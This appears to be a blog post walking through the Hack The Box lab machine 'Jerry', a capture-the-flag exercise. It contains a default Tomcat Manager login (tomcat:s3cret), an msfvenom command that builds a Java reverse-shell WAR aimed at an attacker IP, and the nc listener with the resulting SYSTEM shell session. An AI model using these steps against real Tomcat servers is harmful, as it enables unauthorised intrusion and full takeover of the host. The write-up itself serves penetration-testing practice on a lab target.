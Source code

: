 ```yaml
---
layout: post
title:  "HTB: Jerry"
date:   2021-03-05 21:00:00 +1100
category: hacking
---
```


## Jerry
Next cab off the rank when sorted by Pwnage is Jerry (after Lame). Again, I went into this one blind.

## Ports
We've got one port only, 8080. This appears to be Windows, based on the TTL.

## 8080
We've got Apache Tomcat 7.0.88, and as we will soon see it's running on Windows Server 2012 R2.

7.0.88 is supposed to be vulnerable to a few things; in particular CVE-2019-0232. I try the Metasploit module but it doesn't seem to want to work.

## Default creds
We can log into the Manager app with default creds; namely *tomcat:s3cret*. There is an authenticated MSF module but I don't just want to sit here yeeting Metasploit at everything. Let's go manual:

{% highlight shell %}
┌──(root💀kali)-[/opt/htb/jerry]
└─# msfvenom -p java/shell_reverse_tcp lhost=10.10.14.2 lport=1234 -f war -o pwn.war
Payload size: 13397 bytes
Final size of war file: 13397 bytes
Saved as: pwn.war
{% endhighlight %}

We can upload and deploy our WAR file using the Manager App in the browser, and with a listener:

{% highlight shell %}
┌──(root💀kali)-[/opt/htb/jerry]
└─# nc -nvlp 1234                                                                   
listening on [any] 1234 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.95] 49192
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system
#etc
C:\Users\Administrator\Desktop\flags>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is FC2B-E489

 Directory of C:\Users\Administrator\Desktop\flags

06/19/2018  06:09 AM    <DIR>          .
06/19/2018  06:09 AM    <DIR>          ..
06/19/2018  06:11 AM                88 2 for the price of 1.txt
               1 File(s)             88 bytes
               2 Dir(s)  27,599,585,280 bytes free
{% endhighlight %}

Another fairly easy one. They aren't this easy anymore!
